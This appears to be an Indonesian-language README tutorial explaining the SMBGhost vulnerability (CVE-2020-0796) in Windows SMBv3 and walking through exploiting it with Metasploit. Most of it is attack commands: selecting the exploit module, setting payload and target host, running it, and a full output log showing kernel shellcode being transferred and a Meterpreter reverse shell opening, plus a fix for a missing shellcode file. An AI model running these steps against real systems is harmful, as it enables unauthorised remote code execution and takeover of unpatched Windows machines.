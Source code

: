 # CVE-2020-0796

## A. Apa itu CVE-2020-0796?

[CVE-2020-0796](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-0796), juga dikenal sebagai SMBGhost, adalah kerentanan Remote Code Execution (RCE) dalam `SMBv3` (Server Message Block versi 3) yang ditemukan pada Windows 10 dan Windows Server versi `1903` dan `1909`.

Kerentanan ini memungkinkan penyerang jarak jauh untuk mengeksekusi kode arbitrer pada sistem target hanya dengan mengirimkan paket `SMBv3` yang dibuat khusus. Dalam kondisi tertentu, kerentanan ini juga bisa dimanfaatkan untuk Local Privilege Escalation (LPE).

## B. Detail Teknis:
- CVE ID: `CVE-2020-0796`
- Tanggal Rilis: `10 Maret 2020`
- Tipe: Remote Code Execution (RCE) + Local Privilege Escalation (LPE)
- Protokol: `SMBv3`
- Komponen: `srv2.sys`
- Platform: `Windows 10` / `Server 1903` & `1909`
- Arsitektur: `x86` dan `x64`
- Skor CVSS: `10.0` (Kritis)

## C. Sistem yang Rentan

Untuk melihat semua sistem yang rentan terhadap `CVE-2020-0796`, anda bisa melihatnya di dokumentasi resmi Microsoft: [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-0796](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-0796)

## D. Langkah Penggunaan di Metasploit:

1. Jalankan Metasploit:

   ```
   msfconsole
   ```

2. Gunakan Modul Exploit CVE-2020-0796:

   ```
   msf6 > use exploit/windows/smb/cve_2020_0796_smbghost
   ```

3. Setting Parameter Penting:

   ```
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set RHOSTS <IP_TARGET>
   msf6 > set RPORT 445
   msf6 > set DefangedMode false
   msf6 > set TARGET <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```
   
4. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] Started reverse TCP handler on 192.168.1.42:4444 
   [*] 192.168.1.51:445 - Running automatic check ("set AutoCheck false" to disable)
   [!] 192.168.1.51:445 - The service is running, but could not be validated.
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000013000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000002000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000003000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000004000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000005000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000006000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000007000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000008000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000009000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000000a000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000000b000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000000c000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000000d000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000000e000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000000f000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000010000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000011000
   [*] 192.168.1.51:445 - Found low stub at physical address 0x0000000000011000, virtual address 0xfffff79e8000e000
   [*] 192.168.1.51:445 - Found PML4 at 0x00000000001aa000 (BIOS)
   [*] 192.168.1.51:445 - Found HAL heap at 0xfffff79e80000000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aa000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aa200
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aa400
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aa600
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aa800
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aaa00
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aac00
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aae00
   [*] 192.168.1.51:445 - Found PML4 self-reference entry at 0x01c9
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aaf78
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000041003d0
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004103000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004104000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001200
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001400
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001600
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001800
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001a00
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001c00
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001e00
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004104008
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000005200
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000005400
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000000054c0
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aaf80
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004308068
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004309210
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000255ebb0
   [*] 192.168.1.51:445 - Found hal!HalpInterruptController at 0xfffff79e80001448
   [*] 192.168.1.51:445 - Found hal!HalpApicRequestInterrupt at 0xfffff8034855ebb0
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aae48
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004100000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004101000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004102000
   [*] 192.168.1.51:445 - KUSER_SHARED_DATA PTE NX bit cleared!
   [*] 192.168.1.51:445 - Transferring 1274 bytes of shellcode...
   [*] 192.168.1.51:445 - Transfer complete, hooking hal!HalpApicRequestInterrupt to trigger execution...
   [*] Sending stage (203846 bytes) to 192.168.1.51
   [*] Meterpreter session 26 opened (192.168.1.42:4444 -> 192.168.1.51:49672) at 2025-05-14 22:17:01 +0700
   [*] 192.168.1.51:445 - Restoring the KUSER_SHARED_DATA PTE NX bit...
   [*] 192.168.1.51:445 - Cleaning up the contents of KUSER_SHARED_DATA...

   meterpreter > 
   ```

   Itu artinya kita sudah berhasil mengeksploitasi mesin terget.

## Tips Tambahan

Jika pada saat proses eksplotasi muncul error seperti ini:

```
[-] 192.168.1.51:445 - Exploit failed: Errno::ENOENT No such file or directory @ rb_sysopen - /usr/share/metasploit-framework/external/source/exploits/CVE-2020-0796/RCE/kernel_shellcode.asm
[*] 192.168.1.51:445 - Restoring the KUSER_SHARED_DATA PTE NX bit...
[*] 192.168.1.51:445 - Cleaning up the contents of KUSER_SHARED_DATA...
[*] Exploit completed, but no session was created.
msf6 exploit(windows/smb/cve_2020_0796_smbghost) >
```

Itu artinya file `kernel_shellcode.asm` tidak ada di direktori `/usr/share/metasploit-framework/external/source/exploits/CVE-2020-0796/RCE/`.

Untuk mengatasi error itu ketikkan perintah ini:

```
cd /usr/share/metasploit-framework
mkdir -p external/source/exploits/CVE-2020-0796/RCE/
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/refs/heads/master/external/source/exploits/CVE-2020-0796/RCE/kernel_shellcode.asm
```

Jika sudah jalankan exploit lagi:

```
exploit
```
